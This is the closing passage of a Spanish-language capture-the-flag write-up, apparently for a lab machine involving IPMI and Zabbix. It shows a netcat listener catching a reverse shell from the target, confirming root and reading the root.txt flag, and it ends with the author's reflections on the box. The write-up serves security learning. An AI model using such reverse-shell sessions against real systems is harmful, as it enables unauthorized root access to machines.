 ```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.124] 60162
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
find / -type f -name root.txt
/root/root.txt
cat /root/root.txt
d9c18975fc2140ec3bd093291c797c4c
```

### ¡Gracias por leer hasta el final!

Una máquina interesante con cosas que no había visto hasta ahora, como por ejemplo el uso de IPMI y Zabbix.
La escalada de privilegios resultó bastante simple y es la parte que menos me ha gustado de la máquina.

#### Nos vemos en un próximo. ¡Feliz hacking! ☠